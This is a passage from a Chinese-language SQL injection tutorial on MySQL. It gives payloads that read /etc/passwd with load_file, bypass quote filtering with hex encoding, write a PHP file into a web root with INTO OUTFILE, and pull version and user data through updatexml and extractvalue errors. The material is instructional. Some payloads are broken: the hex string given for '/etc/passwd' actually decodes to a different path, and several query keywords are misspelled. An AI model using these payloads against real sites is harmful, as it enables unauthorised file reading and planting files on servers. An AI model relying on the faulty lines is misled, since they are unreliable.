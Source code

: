 **① load_file() 函数读文件操作**
MySQL 提供了 load_file() 函数，可以帮助用户快速读取文件，但文件的位置必须在服务器上，文件必须为绝对路径，且用户必须有 FILE 权限，文件容量也必须小于 max_allowed_packet 字节 (默认为 16MB，最大为 1GB)。

SQL 语句如下：
`UNION SELECT 1, load_file('/etc/passwd'), 3, 4 #`

通常一些防注入语句不允许单引号出现，那么可以使用一下语句绕过：
`UNION SELECT 1, load_file(0x2F6561342F706173737764), 3, 4 #`
“0x2F6561342F706173737764” 为 “/etc/passwd” 的十六进制转换结果。

在浏览器返回数据时，有可能存在乱码问题，那么可以使用 hex() 函数将字符串转换为十六进制数据。

**② into outfile 写文件操作**
MySQL 提供了向磁盘写文件的操作，与 load_file() 一样，必须有 FILE 权限，并且文件必须为全路径名称。

写入文件：
`SELECT '<?php phpinfo();?>' into oufile 'C:\wwwroot\1.php'`

**③ 连接字符串**
MySQL 如果需要一次查询多个数据，可以使用 concat() 或 concat_ws() 函数来完成。

`SELECT name FROM student WHERE id = 1 UNION SELECT concat(user(), ',', database(), ',', version())`;

也可以将逗号改用十六进制表示：0x2c

##### 5. MySQL 显错式注入

MySQL 也存在显错式注入，可以像 SQL Server 数据库那样，使用错误提取消息。

**① 通过 updatexml 函数执行 SQL 语句**

首先了解下 updatexml()函数：
updatexml (XML_document, XPath_string, new_value);
第一个参数：`XML_document`是 String 格式，为 XML 文档对象的名称；
第二个参数：`XPath_string` (Xpath 格式的字符串) ，
第三个参数：`new_value`，String 格式，替换查找到的符合条件的数据

`SELECT * FROM message WHERE id = 1 and updatexml(1, (concat(0x7c, (SELECT @@version))), 1)`
其中的 concat()函数是将其连成一个字符串，因此不会符合 XPATH_string 的格式，从而出现格式错误，报错，会显示出无法识别的内容：
![在这里插入图片描述](./picture/2019022422162974.png)

**② 通过 extractvalue 函数**
`SEELCT * FROM message WHERE id= 1 AND extravtvalue(1, concat(0x7c, (SELECT user())))`
同样报错显示出当前用户：
![在这里插入图片描述](./picture/20190224222331730.png)

##### 6. 宽字节注入

宽字节注入是由**编码不统一**所造成的，这种注入**一般出现在 PHP + MySQL**中。

在 PHP 配置文件 php.ini 中存在 magic_quotes_gpc 选项，被称为魔术引号，当此选项被打开时，**使用 GET、POST、Cookie 所接受的 单引号(’)、双引号(")、反斜线() 和 NULL 字符都会自动加上一个反斜线转义**。
